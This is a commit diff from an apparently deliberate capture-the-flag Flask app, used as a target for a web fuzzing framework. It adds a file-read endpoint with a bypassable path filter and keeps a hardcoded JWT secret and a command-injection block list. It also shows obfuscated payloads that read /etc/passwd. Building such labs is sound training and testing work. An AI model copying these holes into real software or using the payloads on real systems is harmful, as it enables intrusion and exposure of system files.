
After one commit to Mustafaa8a/Smart-Fuzzing-Framework-for-Web-Apps, a Flask app: template FUZZ FrameWork Site/templates/read.html in a window 1280 px wide. The commit adds this page. Shown: the top 300 px of the page, without its empty margins (142-782 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
added command injection added /read end point

```diff
--- a/FUZZ FrameWork Site/app.py
+++ b/FUZZ FrameWork Site/app.py
@@ -3,7 +3,7 @@ import os
 from flask_jwt_extended import JWTManager, create_access_token, jwt_required, get_jwt_identity, verify_jwt_in_request
 from werkzeug.security import generate_password_hash, check_password_hash
 from datetime import timedelta
-import urllib.parse
+from urllib.parse import unquote
 
 app = Flask(__name__)
 app.config['JWT_SECRET_KEY'] = 'lol_i_am_the_admin'
@@ -15,7 +15,7 @@ jwt = JWTManager(app)
 
 # Command injection filter
 def filter(cmd):
-    notAllowed = ["flag.txt", "head", "tail", "flag"]
+    notAllowed = ["head", "cat", "tail", "etc","(",";",")","&","|"]
     for c in notAllowed:
         if c in cmd:
             return False
@@ -26,32 +26,35 @@ def filter(cmd):
 @jwt_required()
 def home():
     current_user = get_jwt_identity()
-    return send_from_directory("templates", "index.html")
+    return render_template("index.html")
 
-# SSTI challenge
-@app.route("/template")
+# LFI challenge
+@app.route("/read",methods=["GET","POST"])
 @jwt_required()
 def template():
-    current_user = get_jwt_identity()
-    name = request.args.get("name")
-    if name:
-        if '{' in name or '}' in name:
-            return render_template_string("Hacker", status_word="Hacker"), 403
+    if request.method=="GET":
+        return render_template("read.html")
+    elif request.method=="POST":
+        path = request.form.get("filename","")
+        if "/" in path: return "LOL try harder"
+        path=unquote(path)
+        if "../" in path:
+            path=path.replace("../","")
+        path=os.path.normpath(path)
+        try:
+            with open(path, "r", encoding="utf-8", errors="ignore") as file:
+                content = file.read()
+        except Exception as e:
+            content = f"Error: {e}"
 
-    html = f"""
-    <!DOCTYPE html>
-    <html>
-    <body>
-        <h2>Hi {name}</h2>
-    </body>
-    </html>
-    """
-    return render_template_string(html)
+        return render_template("view.html", content=content)
+
+
 
 # Command injection
 @app.route("/run", methods=["GET","POST"])
 @jwt_required()
-def about():
+def run():
     current_user = get_jwt_identity()
     cmd = request.form.get('cmd', '')
 
--- a/FUZZ FrameWork Site/flag.txt
+++ /dev/null
@@ -1 +0,0 @@
-flag{B451c_1njec7ion_Att4ck}
--- /dev/null
+++ b/FUZZ FrameWork Site/templates/read.html
@@ -0,0 +1,67 @@
+<!DOCTYPE html>
+<html>
+    <head>
+        <meta charset="UTF-8">
+        <title>View File</title>
+        <style>
+            body {
+                font-family: Arial, sans-serif;
+                max-width: 800px;
+                margin: 0 auto;
+                padding: 20px;
+            }
+            h1 {
+                color: #333;
+            }
+            .input-container {
+                margin-bottom: 20px;
+            }
+            input[type="text"] {
+                padding: 10px;
+                font-size: 16px;
+                width: 300px;
+                border-radius: 5px;
+                border: 1px solid #ccc;
+                margin-right: 10px;
+            }
+            button {
+                padding: 10px 20px;
+                font-size: 16px;
+                cursor: pointer;
+                background-color: #4CAF50;
+                color: white;
+                border: none;
+                border-radius: 5px;
+            }
+            button:hover {
+                background-color: #45a049;
+            }
+            .output-container {
+                margin-top: 20px;
+                padding: 15px;
+                border: 1px solid #ccc;
+                border-radius: 5px;
+                background: #f9f9f9;
+                white-space: pre-wrap;
+            }
+        </style>
+    </head>
+    <body>
+        <h1>View File</h1>
+        <p>Try to read flag.txt</p>
+
+        <div class="input-container">
+            <form method="POST">
+                <input type="text" name="filename" placeholder="/etc/passwd" required>
+                <button type="submit">Read File</button>
+            </form>
+        </div>
+
+        {% if content %}
+        <div class="output-container">
+            <h2>File Content</h2>
+            <pre>{{ content }}</pre>
+        </div>
+        {% endif %}
+    </body>
+</html>
--- a/FUZZER/ci.txt
+++ b/FUZZER/ci.txt
@@ -58,3 +58,4 @@ ${LS_COLORS:10:1}$(rev<<<'dwssap/cte/ liat')
 ;bash<<<$(base64 -d<<<dGFpbCAvZXRjL3Bhc3N3ZA==)
 ;bash<<<$(base64%09-d<<<dGFpbCAvZXRjL3Bhc3N3ZA==)
 ;bash<<<$(base64${IFS}-d<<<dGFpbCAvZXRjL3Bhc3N3ZA==)
+%0astrings${IFS}/e't'c/passwd
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1 @@
+flag{lfi_1s_s0_e4sy!}
```
Also changed, not shown: FUZZ FrameWork Site/templates/index.html (+27 -5 lines), FUZZ FrameWork Site/templates/template.html (deleted, +0 -12 lines), FUZZ FrameWork Site/templates/view.html (added, +11 -0 lines), FUZZER/fuzz.py (+56 -1 lines).
